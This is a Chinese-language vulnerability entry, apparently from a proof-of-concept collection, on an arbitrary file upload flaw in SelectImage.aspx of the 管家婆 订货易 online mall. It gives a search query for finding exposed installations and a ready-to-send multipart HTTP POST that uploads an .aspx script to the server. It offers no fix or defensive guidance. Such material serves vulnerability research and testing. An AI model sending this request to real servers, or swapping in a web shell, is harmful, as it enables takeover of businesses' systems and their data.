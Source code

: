# 管家婆 订货易在线商城 SelectImage.aspx 任意文件上传漏洞

## 漏洞描述

任我行率先针对中小企业推出了管家婆进销存、财务一体化软件。</p><p>管家婆订货易在线商城存在 SelectImage.aspx 任意文件上传漏洞，攻击者可通过该漏洞可控制整个系统，最终导致系统处于极度不安全状态。

## 漏洞影响

<a-checkbox checked>管家婆 订货易在线商城</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="订货易"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1697717295478-34323ce3-2781-44b8-b661-80a61d9c6b74.png)

验证POC

```php
POST /DialogTemplates/SelectImage.aspx?type=titleimg&size=30*100&pageindex=1&iscallback=true HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh;T2lkQm95X0c= Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
Content-Type: multipart/form-data; boundary=532c7611457d40f4ae4cd9422973416b

--532c7611457d40f4ae4cd9422973416b
Content-Disposition: form-data; name="Filedata"; filename="TEST.aspx"
Content-Type: image/jpeg

<% Response.Write("Test"); %>
--532c7611457d40f4ae4cd9422973416b--"
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1697766919579-f7c4cda8-02ba-41da-b073-b357d9109280.png)